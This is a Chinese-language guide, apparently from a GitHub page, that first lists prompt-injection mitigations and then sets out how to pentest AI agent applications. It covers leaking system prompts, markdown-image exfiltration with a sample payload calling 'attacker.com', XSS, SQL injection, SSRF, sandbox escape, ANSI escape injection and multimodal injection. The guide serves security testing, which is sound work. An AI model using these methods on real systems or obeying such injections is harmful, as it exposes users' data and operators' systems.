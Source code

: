 解决人工智能漏洞，尤其是提示注入问题，需要采取多层防护策略。虽然目前没有针对提示注入的绝对有效修复方法，但以下缓解措施可以显著降低风险。以下（我认为）是互联网上关于提示注入缓解措施最全面的列表：

- **系统提示调整**：对系统提示进行一些尝试性修改，看看能否让模型停止执行你不希望它做的事情。例如，你可以要求模型永远不要透露系统提示或任何关于应用程序的其他信息。虽然这并非百分百有效，但会增加用户获取应用程序相关信息的难度。
- **静态字符串替换**：过滤掉已知的危险字符，甚至逐步建立一个恶意字符串数据库。这是最简单的缓解措施，但可能也是效果最差的措施之一，因为人工智能模型非常擅长理解用户意图，你往往只需换个说法，甚至省略部分负载内容，模型也能帮你补全。
- **高级输入过滤**：肯定有办法构建比静态字符串替换更有效的基于正则表达式的复杂过滤器，此外还有启发式检测以及自定义人工智能分类器，用于标记或修改可疑提示。
- **自定义提示注入模型**：一些公司开发了基于机器学习的模型，通过对过去的攻击案例和对抗训练数据集进行学习，来识别提示注入企图。这些模型的质量和效果差异很大。我相信这将是未来的发展方向，而且会有公司将其作为低延迟、高精度的服务进行销售。
- **违反策略检测**：实施基于规则的系统，监测输入和输出是否违反预定义的安全策略。这可以包括防止模型响应进行未经授权的工具调用或操纵用户数据。
- **基于角色的访问控制（RBAC）和沙箱机制**：一些切实可行的简单措施包括根据用户角色分配人工智能功能权限，并与用户共享授权信息。
- **模型选择**：作为开发者，你可以选择对提示注入更具抗性的模型。例如，GraySwan 的 Cygnet 模型经过专门训练，对提示注入的抗性更强。因此，它们拒绝执行的情况可能会更多，但如果确保你的应用程序绝对不能被提示注入至关重要，这可能是最佳选择。他们的一些模型从未被成功越狱过。他们还设有一个 10 万美元奖金池的挑战赛。加入他们的 Discord 社区可了解更多信息。
- **提示链约束**：另一个简单有效的方法是在设计系统架构时增强安全性，例如限制人工智能的多步操作，确保模型响应在未经用户明确确认的情况下不能自动触发额外操作，并限制单次交互中可调用的工具数量。
- **多模态安全**：这一点颇具挑战性，但我认为仍有创新空间，比如像素（或音频）平滑技术，将像素（或音频）“舍入” 到特定阈值，这样不会对图像（或音频）造成太大改变，但可以破坏隐藏的提示注入。
- **持续测试 - 人工智能安全**：这是所有缓解措施中最重要的一点。要知道你的缓解措施是否有效，唯一的方法就是进行测试。这意味着要进行渗透测试，最终还需要设立漏洞赏金计划。如果你对应用程序安全渗透测试感兴趣。


# AI AGENT 攻击方法概述

  下面将介绍如何有效地测试人工智能应用程序是否存在安全漏洞。

1. 识别数据源：**尽可能泄露系统提示**，因为它通常能透露**应用程序的功能信息**。确定模型是否会摄取外部数据源（网站、图像、电子邮件、检索增强生成数据等）。如果是，用户是否能够修改其中某些数据源？[Seclists/ai](https://github.com/danielmiessler/SecLists/tree/master/Ai/LLM_Testing) 中有一些负载可以用于测试这一点。
2. 寻找数据泄露路径（数据渗出路径）：数据从人工智能应用程序泄露的方式有多种。
    - **通过要求模型以 Markdown 格式渲染图像，检查是否存在 Markdown 图像渲染功能**。如果可以渲染，你可以利用基于 Markdown 图像的数据泄露方法，让大语言模型从你控制的服务器渲染图像，并在路径或参数中包含敏感数据。你可以[在此处阅读相关示例报告](https://embracethered.com/blog/posts/2023/google-bard-data-exfiltration/)。负载形式如下：`![alt text](http://attacker.com/${sensitive_data})`
    - 如果应用程序无法渲染 Markdown 图像，则测试是否存在可能泄露相同数据的恶意链接。虽然这需要用户多一次点击操作，但仍是一个可行的选择。
    - 随着智能应用程序添加的工具越来越多，如果聊天机器人具备发送电子邮件的功能，还可以寻找其他**越界数据泄露方法**，如基于电子邮件的数据泄露。
3. 利用传统网络漏洞：
    - 通过提示注入实现跨站脚本攻击（XSS）：如果人工智能模型的响应存在 XSS 漏洞，并且你能让模型为其他用户生成响应，就可以利用这个漏洞。你可以通过 CSRF 攻击，或者在可能被其他用户上下文获取的位置放置提示注入负载，从而让模型为其他用户生成内容。
    - 通过人工智能实现 SQL 注入：如果聊天机器人可以访问数据库，有时你可以指示它执行恶意 SQL 查询。
    - 跨用户数据泄露（IDOR）：如果人工智能应用程序没有与用户共享授权信息，有时你可以说服模型提供其他用户的数据。
    - 远程代码执行：如果人工智能应用程序具备执行代码的能力，你有可能找到沙箱逃逸的方法。但要注意，许多应用程序都处于严格的沙箱环境中，因此可能颇具难度。
    - 拒绝服务 / 钱包耗尽攻击：如果人工智能应用程序进行付费 API 调用，你可以通过反复发送昂贵的请求，造成严重的经济损失。
    - API 密钥泄露：人工智能聊天机器人通常使用的 API 密钥可能会在网页的 JavaScript 代码或源代码中暴露。如果该密钥具有其他访问权限，且没有速率限制或其他保护措施，这可能就是一个漏洞。
    - 盲打型跨站脚本攻击（Blind XSS）：如果人工智能应用程序存储用户输入，并将其呈现给管理员或其他用户，你可以通过提交盲打型跨站脚本攻击（BXSS）负载，或者让模型输出这些负载，来实现盲打型跨站脚本攻击。
    - 服务器端请求伪造（SSRF）：如果人工智能应用程序具备浏览功能，你可以将其当作服务器端请求伪造（SSRF）工具，访问内部系统或云元数据服务。
4.  **利用人工智能安全和多模态漏洞**：除了传统网络漏洞，人工智能应用程序通常还存在与人工智能特定功能和多模态能力相关的独特安全问题：
	- **终端控制序列注入**：基于命令行界面（CLI）的人工智能工具可能容易受到 ANSI 转义序列攻击，从而导致终端被操控、剪贴板写入（可能实现远程代码执行），以及通过 DNS 请求或可点击链接进行数据窃取。更多详细信息。
	- **检索增强生成中的内部数据泄露**：启用检索增强生成（RAG）的系统可能会在用户请求的上下文中暴露内部数据。
	- **多模态提示注入**：图像、音频或视频文件可能包含对人类不可见，但会被人工智能处理的隐藏提示注入负载。
	- **图像生成安全缺陷**：如果人工智能应用程序能够生成图像，尝试让其生成裸体或其他冒犯性内容。
	- **工具链利用**：拥有多个工具的人工智能智能体可能会被诱使以意外的方式链式执行操作，尤其是在浏览不可信内容之后。
	- **Markdown 图像数据泄露**：如果人工智能应用程序能够渲染 Markdown 图像，你可以利用它们进行数据泄露。
	- **链接展开数据泄露**：聊天平台自动 “展开”（预览）链接时，如果人工智能在 URL 中包含敏感信息，就可以利用这个功能进行数据泄露。更多详细信息。
	- **基于语音的提示注入**：如果人工智能应用程序能够处理语音，你可以使用基于语音的提示注入，将数据注入到人工智能的上下文中。
	- **现实世界中的提示注入（Prompt Injection IRL）**：如果人工智能应用程序能够处理图像，你可以在 T 恤上、二维码中或广告牌上使用基于图像的提示注入。这主要是开个玩笑，但也是一种有趣的思考未来提示注入方式的角度。

